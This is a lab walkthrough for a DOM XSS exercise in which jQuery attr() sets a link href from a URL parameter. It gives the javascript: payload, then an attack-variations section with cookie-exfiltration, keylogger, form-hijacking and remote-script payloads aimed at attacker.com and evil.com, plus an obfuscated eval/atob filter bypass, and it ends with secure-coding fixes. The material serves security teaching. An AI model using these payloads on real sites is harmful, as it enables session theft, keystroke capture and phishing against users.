

---

**Difficulty:** 🟢 Apprentice

**Goal:**

- 🔍 Identify DOM XSS vulnerability in jQuery code
- 🎯 Understand jQuery `attr()` sink with `location.search` source
- 💉 Exploit `href` attribute manipulation
- 🔗 Use `javascript:` protocol for code execution
- 🚨 Execute `alert(document.cookie)` to solve lab
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **DOM XSS in jQuery href attribute** occurs when jQuery's `.attr()` function sets an anchor tag's `href` attribute using attacker-controlled data from `location.search`. By injecting a `javascript:` URL, attackers can execute arbitrary JavaScript when users click the link, leading to XSS without requiring HTML injection.

### 📊 **The Vulnerability**

**Normal Feedback Functionality:**

```
User clicks "Submit Feedback"
         ↓
URL: /feedback?returnPath=/home
         ↓
jQuery reads returnPath parameter
         ↓
$('#backLink').attr('href', returnPath)
         ↓
Back link points to: /home
         ↓
User clicks "Back" → Redirects to /home ✓
```

**XSS Attack using javascript: protocol:**

```JS
Attacker crafts malicious URL:
/feedback?returnPath=javascript:alert(document.cookie)

jQuery processes:
         ↓
var returnPath = new URLSearchParams(location.search).get('returnPath');
         ↓
$('#backLink').attr('href', 'javascript:alert(document.cookie)')
         ↓
HTML becomes:
<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
         ↓
User clicks "Back" link
         ↓
JavaScript executes! 💥
         ↓
alert(document.cookie) runs! 🎯
```

**Key Insight:**

```
Why href attribute XSS is dangerous:

1. javascript: URL scheme:
   └── Allows JavaScript execution in href
       └── When link clicked, code runs
           └── No HTML injection needed!

2. jQuery attr() is dangerous:
   └── Sets attribute value directly
       └── No validation of href content
           └── Accepts javascript: protocol

3. User interaction required:
   └── Unlike img onerror (automatic)
       └── This requires click
           └── But users naturally click "Back" links!

4. Common in real applications:
   └── Return URLs from query parameters
       └── "Go back to previous page" functionality
           └── Developers often trust query params

The vulnerability chain:
└── User-controllable source (returnPath parameter)
    └── Passed to jQuery attr() sink
        └── Sets href attribute without validation
            └── javascript: protocol accepted
                └── User clicks link (expected behavior)
                    └── XSS executes! 💣
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the homepage
3. 🔍 Locate the **"Submit feedback"** link

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ Recent Posts:                      │
│ ├── Post 1                         │
│ ├── Post 2                         │
│ └── Post 3                         │
│                                    │
│ [Submit feedback]  ← Click this    │
│                                    │
└────────────────────────────────────┘
```

---

### 📝 **Step 2 — Navigate to Feedback Page**

1. 🖱️ Click **"Submit feedback"** link
2. 👀 Observe the URL and page content

**URL changes to:**

```HTTP
https://YOUR-LAB-ID.web-security-academy.net/feedback
```

**Feedback page layout:**

```
┌────────────────────────────────────┐
│ Submit Feedback                    │
├────────────────────────────────────┤
│                                    │
│ Name:     [_______________]        │
│                                    │
│ Email:    [_______________]        │
│                                    │
│ Subject:  [_______________]        │
│                                    │
│ Message:  [_______________]        │
│           [_______________]        │
│                                    │
│ [Submit]                           │
│                                    │
│ [Back]  ← "Back" link (important!) │
│                                    │
└────────────────────────────────────┘
```

---

### 🔎 **Step 3 — Inspect "Back" Link**

1. 🖱️ Right-click on the **"Back"** link
2. 📋 Select **"Inspect"** or **"Inspect Element"**
3. 👀 Observe the HTML structure

**HTML of Back link:**

```html
<a id="backLink" href="/">Back</a>
                 ↑
         Default href points to homepage
```

**Key observations:**

```
✅ Link has ID: backLink
✅ Default href: /
✅ This link will be manipulated by JavaScript
💡 Potential target for href manipulation!
```

---

### 📄 **Step 4 — View Page Source**

1. 🖱️ Right-click on page
2. 📋 Select **"View Page Source"** (or press `Ctrl+U` / `Cmd+U`)
3. 🔍 Search for JavaScript/jQuery code handling the back link

**Look for code like this:**

```html
<!DOCTYPE html>
<html>
<head>
    <title>Submit Feedback</title>
    <script src="/resources/js/jquery_3-7-1.js"></script>
</head>
<body>
    <h1>Submit Feedback</h1>
    
    <form action="/feedback/submit" method="POST">
        <input type="text" name="name" placeholder="Name">
        <input type="email" name="email" placeholder="Email">
        <input type="text" name="subject" placeholder="Subject">
        <textarea name="message" placeholder="Message"></textarea>
        <button type="submit">Submit</button>
    </form>
    
    <a id="backLink" href="/">Back</a>
    
    <script>
        $(function() {
            $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
        });
    </script>
</body>
</html>
```

**Vulnerable code analysis:**

```javascript
$(function() {
    // SOURCE: Gets returnPath parameter from URL
    var returnPath = (new URLSearchParams(window.location.search)).get('returnPath');
                      ↑
              location.search = attacker-controlled!
    
    // SINK: Sets href attribute using jQuery
    $('#backLink').attr("href", returnPath);
                   ↑
           Dangerous sink - no validation!
});
```

**The vulnerability:**

```js
Line-by-line breakdown:

1. $(function() { ... });
   └── jQuery document.ready function
       └── Executes when DOM is ready

2. var returnPath = (new URLSearchParams(window.location.search)).get('returnPath');
   └── Reads 'returnPath' parameter from URL
       └── Source: location.search (attacker-controlled)
       └── Example: ?returnPath=/home extracts "/home"

3. $('#backLink').attr("href", returnPath);
   └── Selects element with ID "backLink"
   └── Sets its href attribute to returnPath value
   └── Sink: jQuery attr() (dangerous for href)
   └── No validation of URL scheme!
   └── Accepts: http://, https://, javascript:, data:, etc.

Why it's vulnerable:
├── User input taken from URL parameter
├── Directly assigned to href attribute
├── No validation or sanitization
├── javascript: protocol accepted!
└── Code executes when link clicked! 💣

Attack flow:
URL: /feedback?returnPath=javascript:alert(1)
     ↓
returnPath = "javascript:alert(1)"
     ↓
$('#backLink').attr("href", "javascript:alert(1)")
     ↓
HTML: <a href="javascript:alert(1)">Back</a>
     ↓
User clicks link
     ↓
JavaScript executes! 💥
```

---

### 🧪 **Step 5 — Test returnPath Parameter**

**First, let's test normal behavior:**

1. 🌐 Modify URL to include returnPath:

```
/feedback?returnPath=/test
```

2. 🚀 Press Enter
3. 🖱️ Right-click "Back" link and inspect

**Expected result:**

```html
<a id="backLink" href="/test">Back</a>
                      ↑
         href changed to /test!
```

**Confirmation:**

```
✅ returnPath parameter controls href
✅ jQuery updates attribute dynamically
✅ No validation observed
💡 Can inject javascript: protocol!
```

---

### 🎯 **Step 6 — Understand javascript: Protocol**

**What is javascript: protocol:**

```HTTP
URL Schemes/Protocols:
├── http://example.com     → HTTP request
├── https://example.com    → HTTPS request
├── ftp://example.com      → FTP request
├── mailto:user@example    → Email client
├── tel:+1234567890        → Phone dialer
└── javascript:CODE        → Execute JavaScript! 💣

javascript: URL behavior:
└── When used in href attribute
    └── Clicking link executes CODE
        └── Instead of navigation!

Example:
<a href="javascript:alert('XSS')">Click me</a>
         ↑
When clicked, executes: alert('XSS')
```

**How it works in detail:**

```JS
Normal link:
<a href="/home">Back</a>
     ↓ User clicks
Navigate to /home

JavaScript link:
<a href="javascript:alert(1)">Back</a>
     ↓ User clicks
Execute: alert(1)
     ↓
No navigation occurs
```

**Why browsers allow this:**

```
Historical reasons:
└── javascript: URLs existed since early web
    └── Used for bookmarklets
        └── "Favlets" - JavaScript in favorites
            └── Still supported for compatibility

Modern usage:
├── Bookmarklets (legitimate)
├── Developer tools
└── XSS attacks (malicious) ⚠️

Browser behavior:
└── Treats javascript: as valid URL scheme
    └── No warning when setting href
        └── Executes when link activated
            └── Creates XSS opportunity!
```

---

### 💉 **Step 7 — Construct Payload**

**Understanding the payload:**

```JS
Lab requirement:
└── Execute: alert(document.cookie)
    └── Shows cookies in alert popup

Payload structure:
javascript:alert(document.cookie)

Breaking it down:
├── javascript:         → Protocol/scheme
├── alert(...)          → JavaScript function
└── document.cookie     → Access cookies

How it works:
1. URL parameter: ?returnPath=javascript:alert(document.cookie)
   └── returnPath = "javascript:alert(document.cookie)"

2. jQuery sets href:
   └── <a href="javascript:alert(document.cookie)">Back</a>

3. User clicks "Back" link:
   └── Browser executes: alert(document.cookie)

4. Alert popup shows cookies! ✓
```

**Final payload:**

```JS
javascript:alert(document.cookie)
```

**URL-encoded version (if needed):**

```js
javascript:alert(document.cookie)

No encoding needed in this case!
Browsers handle it correctly.

But if needed:
javascript%3Aalert%28document.cookie%29

Where:
: → %3A
( → %28
) → %29
```

---

### 🚀 **Step 8 — Execute Attack**

**Method 1: Direct URL modification**

1. 🌐 Navigate to feedback page with malicious parameter:

```HTTP
https://YOUR-LAB-ID.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

2. 📋 Paste complete URL into browser address bar
3. 🚀 Press Enter

**Method 2: Manual parameter addition**

1. 🌐 Start at: `/feedback`
2. ✏️ Add to URL: `?returnPath=javascript:alert(document.cookie)`
3. 🚀 Press Enter

**Page loads with malicious href:**

```html
Feedback page now contains:
<a id="backLink" href="javascript:alert(document.cookie)">Back</a>
                        ↑
                Malicious JavaScript ready to execute!
```

---

### 🖱️ **Step 9 — Trigger XSS by Clicking**

**IMPORTANT: You must click the "Back" link!**

1. 👀 Locate the **"Back"** link on the page
2. 🖱️ **Click** the "Back" link

**What happens:**

```
Click event:
         ↓
Browser processes href attribute
         ↓
Recognizes javascript: protocol
         ↓
Executes: alert(document.cookie)
         ↓
Alert popup appears! 💥
```

**Why click is required:**

```
This XSS is NOT automatic like img onerror!

javascript: URLs only execute when:
├── Link is clicked
├── Form is submitted (if in action)
├── iframe src loads
└── window.location set

In this lab:
└── Requires user to click "Back" link
    └── Simulates real-world scenario
        └── Users naturally click navigation links! ✓
```

---

### 🎉 **Step 10 — Verify Alert with Cookies**

**Expected alert popup:**

```
┌────────────────────────────────────┐
│ This page says:                    │
│                                    │
│ session=abc123xyz456...            │
│                                    │
│            [OK]                    │
└────────────────────────────────────┘
         ↑
    Shows session cookie value!
```

**What you should see:**

```
Alert displays cookie value:
├── May show: session=XXXXXXXXXXXX
├── Or other cookies if present
└── Confirms XSS execution! ✓

Note: Cookie value will be different for each session
The important part is the alert appears with cookie data!
```

---

### ✅ **Step 11 — Lab Completion**

**After alert appears:**

1. ✅ Click **OK** on the alert popup
2. 🎉 Lab automatically detects successful XSS execution

**Completion banner:**

```
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited a       │
│  DOM XSS vulnerability using        │
│  jQuery attr() sink to manipulate   │
│  an anchor href attribute with      │
│  the javascript: protocol.          │
│                                     │
│  Lab: DOM XSS in jQuery anchor      │
│       href attribute sink using     │
│       source location.search        │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab
         ↓
Step 2: Navigate to /feedback page
         ↓
Step 3: Observe "Back" link
         → HTML: <a id="backLink" href="/">Back</a>
         ↓
Step 4: View page source
         → Find: $('#backLink').attr("href", returnPath)
         ↓
Step 5: Identify vulnerability
         → Source: returnPath from location.search
         → Sink: jQuery attr() setting href
         ↓
Step 6: Test normal parameter
         → /feedback?returnPath=/test
         → Verify href changes to /test ✓
         ↓
Step 7: Understand javascript: protocol
         → Protocol allows code execution in href
         ↓
Step 8: Construct payload
         → javascript:alert(document.cookie)
         ↓
Step 9: Navigate with malicious parameter
         → /feedback?returnPath=javascript:alert(document.cookie)
         ↓
Step 10: Click "Back" link
         → Triggers javascript: execution
         ↓
Step 11: Alert popup appears
         → Shows cookie value ✓
         ↓
Step 12: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **jQuery attr() Sink**

```javascript
jQuery attr() function:

Syntax:
$(selector).attr(attributeName, value)

Example:
$('#myLink').attr('href', '/home');
     ↓
Sets: <a id="myLink" href="/home">

Dangerous when:
└── value comes from user input
    └── No validation performed
        └── Dangerous attributes affected:
            ├── href (javascript:, data:)
            ├── src (javascript:)
            ├── action (javascript:)
            └── formaction (javascript:)

Why attr() is dangerous for href:
└── Sets attribute value directly
    └── No URL scheme validation
        └── Accepts ANY string
            └── Including javascript: protocol! 💣
```

**Comparison with other sinks:**

```HTML
innerHTML:
└── Blocks <script> tags
    └── But allows event handlers

document.write:
└── Executes everything
    └── Most dangerous

jQuery attr():
└── Sets attributes without validation
    └── Dangerous for URL-based attributes
        └── href, src, action, etc.

jQuery html():
└── Similar to innerHTML
    └── Blocks <script> tags
        └── Allows event handlers
```

---

### **The Vulnerable Code Pattern**

```r
// ❌ VULNERABLE CODE

$(function() {
    // Get user input from URL
    var returnPath = (new URLSearchParams(window.location.search)).get('returnPath');
    
    // Set href directly - NO VALIDATION!
    $('#backLink').attr("href", returnPath);
});

Problems:
1. Source: location.search (attacker-controlled)
2. No validation of returnPath parameter
3. No URL scheme whitelist
4. Direct assignment to href attribute
5. Accepts javascript: protocol
6. No Content Security Policy

Attack flow:
URL: /feedback?returnPath=javascript:alert(1)
     ↓
returnPath = "javascript:alert(1)"
     ↓
attr("href", "javascript:alert(1)")
     ↓
<a href="javascript:alert(1)">Back</a>
     ↓
User clicks → Code executes! 💥

Real-world scenario:
└── Developer wants "return to previous page"
    └── Uses URL parameter for return path
        └── Trusts parameter is always valid URL
            └── Forgets about javascript: protocol
                └── XSS vulnerability created! ⚠️
```

---

### **javascript: Protocol Deep Dive**

```js
What is javascript: protocol:

Definition:
└── Special URL scheme
    └── Executes JavaScript instead of navigating
        └── Code runs in current page context

Syntax:
javascript:CODE_TO_EXECUTE

Examples:
├── javascript:alert('XSS')
├── javascript:alert(document.domain)
├── javascript:alert(document.cookie)
└── javascript:void(0)  ← Common, does nothing

Where it works:
├── <a href="javascript:...">
├── <iframe src="javascript:...">
├── <form action="javascript:...">
├── window.location = "javascript:..."
└── Many other URL contexts

Execution context:
└── Runs in same origin as page
    ├── Full DOM access
    ├── Can read cookies
    ├── Can modify page
    └── Can make requests

Special case - javascript:void(0):
└── Common in web development
    └── Prevents navigation
        └── void(0) returns undefined
            └── Link does nothing when clicked
                └── Often used with onclick handlers

Historical context:
└── Introduced in Netscape Navigator 2.0 (1996)
    └── Originally for bookmarklets
        └── Still supported for compatibility
            └── Now also exploited for XSS! 💀
```

---

### **Why User Interaction Required**

```js
Unlike img onerror (automatic):
└── 
    └── Executes immediately on load
        └── No user action needed

javascript: in href (requires click):
└── <a href="javascript:alert(1)">
    └── Waits for user to click
        └── Requires user interaction

Why browsers require click:
└── Security consideration
    ├── Prevents automatic code execution
    ├── User must intentionally activate link
    └── Gives user chance to see destination

But in practice:
└── Users click "Back" links naturally
    └── Especially if they navigated to feedback
        └── Expected behavior to return
            └── Social engineering aspect! 🎯

Attack success factors:
├── Link looks legitimate ("Back")
├── Users expect to click it
├── No visual indication of danger
└── High success rate in real attacks!
```

---

### **Location.search as Source**

```js
What is location.search:

Property of window.location object:
└── Contains query string of current URL

Example:
URL: https://example.com/page?name=value&x=y
location.search = "?name=value&x=y"

Parsing query parameters:
// Modern approach:
var params = new URLSearchParams(window.location.search);
var value = params.get('paramName');

// Old approach:
var search = location.search.substring(1); // Remove ?
var pairs = search.split('&');

Why it's attacker-controlled:
└── User can modify URL directly
    └── Type in address bar
    └── Or click malicious link
        └── No server-side validation possible!

Common vulnerable patterns:
├── Redirect URLs: ?returnUrl=/path
├── Search queries: ?q=search
├── Sort/filter: ?sort=name&order=asc
└── Tracking: ?utm_source=email

Developer assumptions (WRONG):
└── "Users won't modify URL parameters"
    └── "Query params are for internal use"
        └── "Only valid values will be provided"
            └── All FALSE! Users control URLs! ⚠️
```

---

## 🚀 **Attack Variations**

### **Variation 1: Cookie Exfiltration**

```javascript
Payload:
javascript:fetch('https://attacker.com/steal?c='+document.cookie)

Purpose:
└── Sends cookies to attacker's server
    └── Session hijacking possible! 💀

Real-world impact:
└── Attacker creates malicious link:
    /feedback?returnPath=javascript:fetch('https://attacker.com/steal?c='%2Bdocument.cookie)
    └── Victim clicks "Back"
        └── Cookies sent to attacker
            └── Attacker can impersonate victim!
```

---

### **Variation 2: Page Redirection**

```javascript
Payload:
javascript:window.location='https://evil.com/phishing'

Purpose:
└── Redirects to phishing site
    └── After clicking "Back"

Attack flow:
└── User on legitimate site
    └── Clicks "Back" expecting to return
        └── Redirected to attacker's phishing site!
            └── Thinks it's legitimate (came from real site)
```

---

### **Variation 3: DOM Manipulation**

```javascript
Payload:
javascript:document.body.innerHTML='<h1>Hacked!</h1>'

Purpose:
└── Defaces the page
    └── Replace content with malicious HTML

Variations:
├── javascript:document.body.innerHTML='<iframe src="https://evil.com">'
├── javascript:document.forms[0].action='https://evil.com/steal'
└── javascript:document.body.appendChild(document.createElement('script')).src='https://evil.com/malware.js'
```

---

### **Variation 4: Form Hijacking**

```javascript
Payload:
javascript:document.forms[0].action='https://attacker.com/steal';document.forms[0].submit()

Purpose:
└── Changes form submission target
    └── Submits feedback to attacker's server
        └── Steals form data!

Real-world impact:
└── User fills out feedback form
    └── Clicks "Back" (changes form action)
        └── Later submits form
            └── Data goes to attacker! 💀
```

---

### **Variation 5: Keylogger Injection**

```javascript
Payload:
javascript:document.onkeypress=function(e){fetch('https://attacker.com/log?k='+e.key)}

Purpose:
└── Logs all keypresses
    └── Steals passwords, credit cards, etc.

Persistence:
└── Remains active after "Back" click
    └── Continues logging until page reload
        └── Captures sensitive data! 💀
```

---

### **Variation 6: Multiple Actions**

```javascript
Payload:
javascript:alert(document.cookie);fetch('https://attacker.com/steal?c='+document.cookie);void(0)

Purpose:
└── Chains multiple actions
    ├── Shows alert (proof of XSS)
    ├── Exfiltrates cookies
    └── void(0) prevents errors

Note: Semicolons separate JavaScript statements
```

---

### **Variation 7: Encoded Payload**

```javascript
Payload:
javascript:eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ=='))

Decoded:
atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ==') 
= 
alert(document.cookie)

Purpose:
└── Obfuscates payload
    └── Bypasses basic keyword filters
        └── If "alert" or "cookie" is blocked
```

---

### **Variation 8: Data URL Alternative**

```javascript
Payload (in some contexts):
data:text/html,<script>alert(document.cookie)</script>

Note:
⚠️ data: URLs may not work in all contexts
⚠️ Some browsers block data: in href
✅ javascript: is more reliable for this lab
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: URL Scheme Whitelist**

```javascript
// ✅ SECURE - Validate URL scheme

$(function() {
    var returnPath = (new URLSearchParams(window.location.search)).get('returnPath');
    
    // Whitelist allowed schemes
    var allowedSchemes = ['http:', 'https:', '/'];
    
    // Check if returnPath starts with allowed scheme
    var isValid = false;
    
    if (returnPath) {
        // Relative URLs (start with /)
        if (returnPath.startsWith('/')) {
            isValid = true;
        } 
        // Absolute URLs
        else {
            try {
                var url = new URL(returnPath, window.location.origin);
                if (allowedSchemes.includes(url.protocol)) {
                    isValid = true;
                }
            } catch(e) {
                // Invalid URL
                isValid = false;
            }
        }
    }
    
    // Only set href if valid
    if (isValid) {
        $('#backLink').attr('href', returnPath);
    } else {
        // Default to safe value
        $('#backLink').attr('href', '/');
    }
});

// Benefits:
// ✅ Whitelist approach (most secure)
// ✅ Blocks javascript:, data:, etc.
// ✅ Allows only http, https, and relative URLs
// ✅ Graceful fallback to safe default
```

---

### **Fix 2: Use Relative URLs Only**

```javascript
// ✅ SECURE - Only allow relative URLs

$(function() {
    var returnPath = (new URLSearchParams(window.location.search)).get('returnPath');
    
    // Only accept paths starting with /
    if (returnPath && returnPath.startsWith('/') && !returnPath.startsWith('//')) {
        $('#backLink').attr('href', returnPath);
    } else {
        // Default safe value
        $('#backLink').attr('href', '/');
    }
});

// Benefits:
// ✅ Simple validation
// ✅ Blocks javascript:, data:, http:, etc.
// ✅ Prevents open redirect
// ✅ Only allows site-relative paths

// Why check for //:
// └── //example.com is protocol-relative URL
//     └── Could redirect to external site
//         └── Must block this too!
```

---

### **Fix 3: Server-Side Validation**

```javascript
// ✅ SECURE - Validate server-side

// Server generates safe return URL
// In HTML:
<a id="backLink" href="/" data-return-path="<?= htmlspecialchars($safeReturnPath) ?>">Back</a>

// Client-side:
$(function() {
    // Read from data attribute (server-validated)
    var returnPath = $('#backLink').data('return-path');
    
    if (returnPath) {
        $('#backLink').attr('href', returnPath);
    }
});

// Benefits:
// ✅ Server validates URL
// ✅ Only safe values in data attribute
// ✅ No client-side URL parsing needed
// ✅ Additional layer of security
```

---

### **Fix 4: Remove Dynamic href Setting**

```javascript
// ✅ SECURE - Don't use client-side URL manipulation at all

// Instead of dynamic href, use history API:
$(function() {
    $('#backLink').on('click', function(e) {
        e.preventDefault();
        window.history.back();
    });
});

// Or use HTTP Referer header server-side:
// Server reads Referer and redirects accordingly

// Benefits:
// ✅ No user input in href
// ✅ No XSS risk
// ✅ Simpler and more reliable
// ✅ Uses browser's back functionality
```

---

### **Fix 5: Content Security Policy**

```html
<!-- ✅ SECURE - Add CSP to block javascript: URLs -->

<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; 
               script-src 'self'; 
               navigate-to 'self';">

<!-- Benefits:
✅ navigate-to directive blocks navigation to javascript: URLs
✅ Blocks data: URLs too
✅ Additional layer even if validation fails
✅ Modern browsers support this

Note: CSP Level 3 feature, not all browsers support navigate-to yet
-->
```

---

### **Fix 6: Input Sanitization with DOMPurify**

```javascript
// ✅ SECURE - Use DOMPurify to sanitize URLs

// Include DOMPurify
// <script src="https://cdn.jsdelivr.net/npm/dompurify@2.4.0/dist/purify.min.js"></script>

$(function() {
    var returnPath = (new URLSearchParams(window.location.search)).get('returnPath');
    
    if (returnPath) {
        // DOMPurify can sanitize URLs
        var clean = DOMPurify.sanitize(returnPath, {
            ALLOWED_URI_REGEXP: /^(?:(?:https?|ftp):\/\/|\/)/i
        });
        
        $('#backLink').attr('href', clean);
    } else {
        $('#backLink').attr('href', '/');
    }
});

// Benefits:
// ✅ Industry-standard sanitization
// ✅ Configurable URL policies
// ✅ Removes dangerous protocols
// ✅ Well-tested and maintained
```

---

### **Fix 7: Strict Type Checking**

```javascript
// ✅ SECURE - Additional validation layers

$(function() {
    var returnPath = (new URLSearchParams(window.location.search)).get('returnPath');
    
    // Multiple validation checks
    if (returnPath && 
        typeof returnPath === 'string' &&
        returnPath.length < 200 &&
        returnPath.startsWith('/') &&
        !returnPath.startsWith('//') &&
        !returnPath.toLowerCase().includes('javascript:') &&
        !returnPath.toLowerCase().includes('data:')) {
        
        $('#backLink').attr('href', returnPath);
    } else {
        $('#backLink').attr('href', '/');
    }
});

// Benefits:
// ✅ Defense in depth
// ✅ Multiple validation layers
// ✅ Explicit blacklist for dangerous protocols
// ✅ Length check prevents very long URLs
```

---
